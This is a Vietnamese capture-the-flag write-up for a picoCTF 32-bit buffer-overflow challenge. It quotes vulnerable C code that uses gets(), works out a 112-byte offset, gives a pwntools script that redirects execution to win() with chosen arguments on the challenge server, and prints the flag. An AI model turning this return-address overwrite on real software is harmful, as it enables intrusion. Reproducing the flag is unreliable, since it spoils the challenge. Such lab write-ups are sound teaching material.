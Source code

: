 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Ta thấy có lệnh gets và hàm win(Hàm có thể lấy flag) -> Lỗi bof
Dùng lệnh 'checksec' kiểm tra: 

![checksec.png](photo/checksec.png)

Ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof

**2. Ý tưởng**

Nhờ lỗi bof nên có thể nhập tràn từ biến buf đến ret rồi chèn địa chỉ hàm win vào. Ở đây chúng ta thêm các giá trị thỏa mãn cho các biến arg1 và arg2 trong hàm win để lấy flag

**3. Viết script**

Dùng lệnh 'file' để kiểm tra file: 

![file.png](photo/file.png)

Ta thấy file thực thi là file 32bit

![buf.png](photo/buf.png)

Ta thấy được vị trí biến buf tron stack là: ebp - 0x6c -> Khoảng cách từ biến buf đến ret là: 0x6c + 0x4 = 112

![win.png](photo/win.png)

Ta có địa chỉ hàm win là: 0x08049296
Giá trị cho arg1 là: 0xCAFEF00D
Giá trị cho arg2 là: 0xF00DF00D

Ta có script như sau: 

```
from pwn import *

r = remote("saturn.picoctf.net", 60374)

win = 0x08049296
arg1 = 0xCAFEF00D
arg2 = 0xF00DF00D
payload = b"a"*112 + p32(win) + b"a"*4 + p32(arg1) + p32(arg2)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

Flag: picoCTF{argum3nt5_4_d4yZ_4b24a3aa}